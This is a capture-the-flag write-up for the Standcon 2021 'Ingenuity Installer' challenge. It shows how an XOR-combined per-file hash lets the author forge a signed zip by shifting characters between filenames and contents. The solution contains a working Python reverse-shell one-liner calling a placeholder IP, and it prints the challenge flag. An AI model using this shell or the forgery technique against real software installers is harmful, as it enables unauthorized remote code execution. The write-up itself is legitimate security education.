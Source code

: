 ```yaml
---
layout: single
title:  "Ingenuity Installer"
date:   2021-07-24 12:05:00 +0800
categories: standcon-2021
permalink: /standcon-2021/ingenuity-installer
---
```


This is a challenge from Cryptography section of Standcon 2021. The challenge wants us to forge a signature of a zip file.

## Statement

>I've always wanted to drive a vehicle on another planet! I found the website they used to install software on Ingenuity. Could you help me get access to it pretty please?

<button class="collapsible btn" id="data">software-installer.py</button>

<div class="content" id="datadata" style="display:none" markdown="1">

```python
from shutil import rmtree
import subprocess
import zipfile

from Crypto.Hash import SHA512
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5

SETUP_FILE = 'setup_script.py'
SIGNATURE_FILE = 'signature.bin'
ZIP_DIR = 'firmware/'


# Checks if signature is correct
class Signature:
    def __init__(self, zip_filename='ingenuity_software-38575ea.zip'):
        self.zip_filename = zip_filename

        self._updateDir()

    def __del__(self):
        self.zip.close()

    def _updateDir(self):
        self.zip = zipfile.ZipFile(self.zip_filename, 'r')
        self.files = self.zip.namelist()

    def _checkValid(self):
        assert ZIP_DIR + SETUP_FILE in self.files
        assert ZIP_DIR + SIGNATURE_FILE in self.files

    def _xor(self, str1, str2):
        assert len(str1) == len(str2)
        return bytes((b1 ^ b2 for b1, b2 in zip(str1, str2)))

    def _calculateHash(self):
        try:
            self.files.remove(ZIP_DIR + SIGNATURE_FILE)
        except:
            pass

        final = b'\x00' * 64
        for file in self.files:
            contents = self.zip.read(file)
            h = SHA512.new(data=file.encode())
            h.update(contents)
            final = self._xor(final, h.digest())

        self.files = self.zip.namelist()

        return final

    def _signFiles(self, hash, priv='private_key.der'):
        key = RSA.import_key(open(priv, 'rb').read())

        digest = SHA512.new(hash)

        return PKCS1_v1_5.new(key).sign(digest)

    def _verifySignature(self, hash, pub='static/keys/public_key.der'):
        key = RSA.import_key(open(pub, 'rb').read())

        return PKCS1_v1_5.new(key).verify(SHA512.new(hash), self.zip.read(ZIP_DIR + SIGNATURE_FILE))

    def genSig(self, write=True):
        try:
            hash = self._calculateHash()
            sig = self._signFiles(hash)

            if write is True:
                with zipfile.ZipFile(self.zip_filename, 'a') as zipW:
                    zipW.writestr(data=sig, zinfo_or_arcname=ZIP_DIR + SIGNATURE_FILE)
        except:
            print('Something went wrong')
            return False

        self.zip.close()
        self._updateDir()

        return sig

    def checkSig(self):
        try:
            self._checkValid()
        except:
            print('setup_script.py or signature.bin missing!')
            return False

        try:
            hash = self._calculateHash()
            return self._verifySignature(hash)
        except:
            print('Something went wrong')
            return False


# Checks if zip file is legit
def checkZip(file):
    return zipfile.is_zipfile(file)


# Runs setup script if signature is valid
def runSetup(zip):
    path = zip.filename[:-4] + '/'
    zip.extractall(path=path)
    subprocess.run(['python', SETUP_FILE], cwd=path + ZIP_DIR)
    rmtree(path)
    
```
</div>

## Observation

First thing to do is to try to break the public key. It might be misconfigured RSA.

We can use [RSACtfTool](https://github.com/Ganapati/RsaCtfTool) to do this. But unfortunately, it is not vulnerable.

Usually if the private key is not retrivable, the only thing left for us to do is to try and exploit the hash function.

Observe that the hash function works by xor the hash for every files in the zip... This looks sus

## Solution

And indeed it is vulnerable! The idea is to create two identical file so that their hash will be cancelled after xor both of them together.

But how do we create 2 identical file? As we have the restriction to not able to create 2 files with the same name...

Let's check the hash again, 

```python
contents = self.zip.read(file)
h = SHA512.new(data=file.encode())
h.update(contents)
```

This means that it is actually doing `hash(file.encode() + file.content())`.

And `file.encode()` is just the filepath of the file!

So we can just modify the filename to create 2 files with the same hash!

Example:

If we have a file

`setup_script.py`
```python
print('hello')
```

The hash will be `hash('setup_script.py' + 'print('hello')')`

The identical file can be

`setup_scr`
```python
ipt.pyprint('hello')
```

The hash will be `hash('setup_scr' + 'ipt.pyprint('hello')')`

These 2 files will have the same hash!

The challenge also provided us a valid zip with a valid signature. We need to insert our own setup_script.py with a reverse shell script to gain access to the server.

So how do we do with the old `setup_script.py`?

Modify the filename!

Reverse shell script

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",12321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

In the end we get the shell and find the flag first with this command

`find / -name "flag*" 2>/dev/null`

Then we cat out the flag.

flag : `STC{my_b4773ry_15_l0w_4nd_175_63771n6_d4rk}`
